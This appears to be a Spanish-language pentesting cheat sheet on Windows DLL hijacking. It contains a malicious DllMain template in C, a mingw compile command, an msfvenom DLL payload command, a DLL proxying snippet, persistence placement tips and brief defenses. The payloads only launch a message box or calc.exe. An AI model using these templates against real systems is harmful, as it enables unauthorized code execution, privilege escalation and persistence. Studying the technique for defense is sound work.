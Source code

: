 ## 🧠 Concepto

**DLL Hijacking** (secuestro de DLL): técnica que consiste en aprovechar cómo Windows carga bibliotecas dinámicas (DLL) para ejecutar una DLL maliciosa colocada en una ruta controlada por el atacante.

* Windows busca DLLs en un orden específico (search order).
* Si no encuentra la original, carga la maliciosa.
* El binario vulnerable debe:

  * Cargar una DLL sin ruta absoluta.
  * Tener privilegios elevados (idealmente).
  * Ser ejecutado automáticamente (opcional, para persistencia).

---

## 🔁 Flujo de Ataque

```text
[1] Identificar binario vulnerable (ej. que cargue DLLs sin ruta absoluta)
[2] Determinar nombre de DLL faltante / buscada
[3] Crear DLL maliciosa con entrada 'DllMain'
[4] Colocar DLL en ruta con prioridad (ej. mismo directorio que el binario)
[5] Ejecutar el binario => carga de nuestra DLL => ejecución de payload
```

---

## 🔍 Identificación de binarios vulnerables

### Manual

```powershell
# Buscar binarios firmados por Microsoft (útiles para LOLBins)
Get-ChildItem -Path "C:\Windows\" -Recurse -Include *.exe -ErrorAction SilentlyContinue |
Where-Object { ($_ -is [System.IO.FileInfo]) -and ($_ | Get-AuthenticodeSignature).SignerCertificate.Subject -match "Microsoft" }

# Buscar ejecutables con DLLs faltantes (Sysinternals)
Strings.exe app.exe | findstr /i ".dll"
```

### Automatizado

```bash
# Windows
procmon.exe         # Filtra por "NAME NOT FOUND" y extensión ".dll"
Process Monitor (Sysinternals)

# Linux (WINE, o binarios extraídos)
PE-bear              # Analiza imports
die.py               # Detecta binarios portables, DLL, etc.
```

---

## 🧰 Herramientas Útiles

* `procmon.exe` (Sysinternals) → Monitoreo de DLLs cargadas
* `Process Explorer` → Ver dependencias en ejecución
* `Dependency Walker (depends.exe)` → Analiza qué DLLs requiere un binario
* `CFF Explorer` o `PE-bear` → Análisis y edición de binarios PE
* `DLL Export Viewer` → Ver funciones exportadas
* `Inno Setup Extractor` → Extrae contenido de instaladores .exe
* `sigcheck.exe` → Validar firmas digitales

---

## 🧪 Desarrollo de DLL Maliciosa (Payload)

### DLL mínima en C

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
  if (fdwReason == DLL_PROCESS_ATTACH) {
    MessageBox(NULL, "DLL Hijacked!", "Pwned", MB_OK);
    // system("calc.exe"); // opcional
  }
  return TRUE;
}
```

### Compilar en Windows

```bash
x86_64-w64-mingw32-gcc -shared -o payload.dll payload.c
```

### También puedes usar MSFVenom:

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o payload.dll
```

---

## ⚙️ Ubicación de la DLL

* **Mismo directorio** que el ejecutable vulnerable (tiene prioridad).
* En rutas controladas por el atacante si hay PATH UNC o configuraciones maliciosas.
* A veces puedes colocarlas en `%ProgramData%`, `%Temp%` o claves de *Run* para persistencia.

---

## 🧬 DLL Proxying (Avanzado)

* Técnica para no romper la funcionalidad original: tu DLL exporta las funciones legítimas y luego ejecuta tu payload.
* Útil para aplicaciones que requieren respuesta correcta de la DLL original.

```c
#pragma comment(lib, "original.dll")

void hijacked_function() {
  // Payload aquí
  system("calc.exe");
  // Luego llamar a la original
  original_function();
}
```

---

## 🎯 DLL Hijacking en Instaladores

Algunos instaladores llaman DLLs durante el proceso de instalación:

1. Extrae los binarios `.exe` y `.msi` → analiza dependencias.
2. Reemplaza DLL en carpeta temporal o al lado del instalador.
3. Ejecuta el instalador.

---

## 🛡️ Defensa / Detección

* Utilizar rutas absolutas al cargar DLLs.
* Firmar DLLs y validar su integridad.
* Aplicar el flag `LOAD_LIBRARY_SEARCH_SYSTEM32` en desarrollos seguros.
* Monitorizar con Sysmon, EDRs y reglas YARA.
